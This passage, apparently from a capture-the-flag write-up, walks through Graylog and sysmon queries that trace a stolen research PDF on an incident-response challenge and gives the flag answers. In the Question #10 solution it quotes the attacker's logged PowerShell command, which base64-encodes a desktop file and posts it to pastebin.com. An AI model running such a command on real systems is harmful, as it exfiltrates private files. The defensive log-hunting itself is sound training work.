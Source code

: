 ```
EventID:3 AND ((SourceHostname:elfu-res-wks3 AND DestinationHostname:elfu-res-wks2) OR (SourceHostname:elfu-res-wks2 AND DestinationHostname:elfu-res-wks3))
```
Using this search allows to get 3 results at 2019-11-19 05:58:28.000, 2019-11-19 05:58:29.000 and 2019-11-19 05:58:29.000.

Starting to arrange timeframes searching for file creations on host 2 while excluding uninteresting folders led to 1 event between 2019-11-19 05:58:28 and 2019-11-19 06:10:00 with search:
```
EventID:2 AND source:elfu-res-wks2 AND NOT TargetFilename:(/.*ProgramData.*/ OR /.*SoftwareDistribution.*/ OR /.*AppData.*/)
```
This event shows the creation of a file named C:\Users\alabaster\Desktop\super_secret_elfu_research.pdf from C:\Windows\Explorer.EXE thus also confirming the exfiltration via SMB.
#### 2.8.10.3. Flag
The flag is: **C:\Users\alabaster\Desktop\super_secret_elfu_research.pdf**.
#### 2.8.10.4. Afterwords
We can look for sysmon file creation event id of 2 with a source of workstation 2. We can also use regex to filter out overly common file paths using something like:
AND NOT TargetFilename:/.+AppData.+/
### 2.8.11. Question #10
#### 2.8.11.1. Description
What is the IPv4 address (as found in logs) the secret research document was exfiltrated to?
#### 2.8.11.2. Solution
It is possible to search for the filename that was saved on host 2 to see if it was involved in other events with query:
```
"C:\\Users\\alabaster\\Desktop\\super_secret_elfu_research.pdf"
```
Even with such a generic query only two results comes up of which one is the process creation for powershell with command line `C:\Windows\SysWOW64\WindowsPowerShell\v1.0\powershell.exe Invoke-WebRequest -Uri https://pastebin.com/post.php -Method POST -Body @{ "submit_hidden" = "submit_hidden"; "paste_code" = $([Convert]::ToBase64String([IO.File]::ReadAllBytes("C:\Users\alabaster\Desktop\super_secret_elfu_research.pdf"))); "paste_format" = "1"; "paste_expire_date" = "N"; "paste_private" = "0"; "paste_name"="cookie recipe" }` thus highlighting that the file was exfiltrated to pastebin.com from PID 1232.

It is possible to verify network events related to this PID with query:
```
EventID:3 AND ProcessId:1232
```
Only one event shows up in the logs, confirming the destination hostname and providing the destination IP 104.22.3.84.
#### 2.8.11.3. Flag
The flag is: **104.22.3.84**.
#### 2.8.11.4. Afterwords
We can look for the original document in CommandLine using regex.
When we do that, we see a long a long PowerShell command using Invoke-Webrequest to a remote URL of https://pastebin.com/post.php.
We can pivot off of this information to look for a sysmon network connection id of 3 with a source of elfu-res-wks2 and DestinationHostname of pastebin.com.
### 2.8.12. Afterwords
In the graylog web ui:
>Incident Response Report #7830984301576234 Submitted.
>Incident Fully Detected!
